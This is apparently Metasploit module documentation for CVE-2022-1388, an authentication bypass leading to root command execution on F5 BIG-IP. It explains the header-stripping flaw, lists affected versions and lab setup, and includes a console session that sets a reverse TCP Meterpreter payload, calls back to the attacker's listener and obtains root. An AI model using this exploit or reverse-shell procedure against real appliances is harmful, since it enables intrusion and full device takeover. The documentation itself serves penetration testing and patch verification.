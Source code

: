 ## Vulnerable Application

### Description
This module exploits an authentication bypass vulnerability (CVE-2022-1388)
in the F5 BIG-IP iControl REST service to gain access to the `admin` account,
which is capable of executing commands through the `/mgmt/tm/util/bash`
endpoint. Successful exploitation results in remote code execution as
the `root` user.

The F5 BIG-IP management interface is made up of two different web servers:
a reverse proxy that validates HTTP Basic authorization using `mod_auth_pam.so`,
and a back end that validates the `X-F5-Auth-Token` header using
`AuthTokenWorker.java`. If the reverse proxy sees an `X-F5-Auth-Token` header,
it sends the full request to the back end for validation; if the back end
sees a request *without* an `X-F5-Auth-Token` header, it assumes it has
already been validated by the reverse proxy and uses the username from
the `Authorization` header without validating the password a second time.

The issue fixed in CVE-2022-1388 is that the `Connection` header,
processed by the reverse proxy, can *remove* the `X-F5-Auth-Token` header
after the reverse proxy sees the request, but before it's forwarded to
the back end. That means that the reverse proxy will think the back end
is handling the authorization (since it saw the appropriate header), but
the back end thinks the reverse proxy handled it (because the header gets
removed) and permits the request. This is contrary to the expected
operation and means that whatever username was passed in the `Authorization`
field will be trusted as if the front end had validated it. This will
result in the attacker bypassing authorization checks and gaining
access to `admin`.

The iControl REST service has several ways to execute shell commands
as an administrative user, but `mgmt/tm/util/bash` is purpose-built
to execute `bash` commands which makes it a perfect target.

CVE-2022-1388 affects the following F5 BIG-IP versions:

* 16.1.x versions prior to 16.1.2.2
* 15.1.x versions prior to 15.1.5.1
* 14.1.x versions prior to 14.1.4.6
* 13.1.x versions prior to 13.1.5
* all 12.1.x and 11.6.x

Tested against BIG-IP 12.1.5.3, 13.1.3.6, 13.1.4.1, and 16.1.2.1.

### Setup

Import a vulnerable BIG-IP or BIG-IQ OVA, such as
`BIGIP-16.0.1-0.0.3.ALL-vmware.ova` from https://ipxpy.net/f5/f5-1-course-introduction/,
into your desired hypervisor. Boot the virtual appliance, and
it should be exploitable out of the box once it's up.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### USERNAME

Set this to a valid admin username. Defaults to `admin`.

### TARGETURI

Set this to base path to the iControl installation. Defaults to `/`.

## Scenarios

### BIG-IP 16.1.2.1

```
msf > use exploits/linux/http/f5_icontrol_rce
[*] Using configured payload cmd/unix/reverse_python_ssl
msf exploit(linux/http/f5_icontrol_rce) > set PAYLOAD payload/cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/f5_icontrol_rce) > set RHOSTS 10.0.0.133
RHOSTS => 10.0.0.133
msf exploit(linux/http/f5_icontrol_rce) > set LHOST 10.0.0.123
LHOST => 10.0.0.123
msf exploit(linux/http/f5_icontrol_rce) > set RPORT 443
RPORT => 443
msf exploit(linux/http/f5_icontrol_rce) > show options

Module options (exploit/linux/http/f5_icontrol_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   yes       iControl password
   HttpUsername  admin            yes       iControl username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.0.0.133       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the iControl installation
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.123       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(linux/http/f5_icontrol_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.123:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking 10.0.0.133:443
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40132 bytes) to 10.0.0.133
[*] Meterpreter session 1 opened (10.0.0.123:4444 -> 10.0.0.133:50372) at 2022-05-11 10:59:32 -0700
[!] Command execution timed out

meterpreter > getuid
Server username: root
```
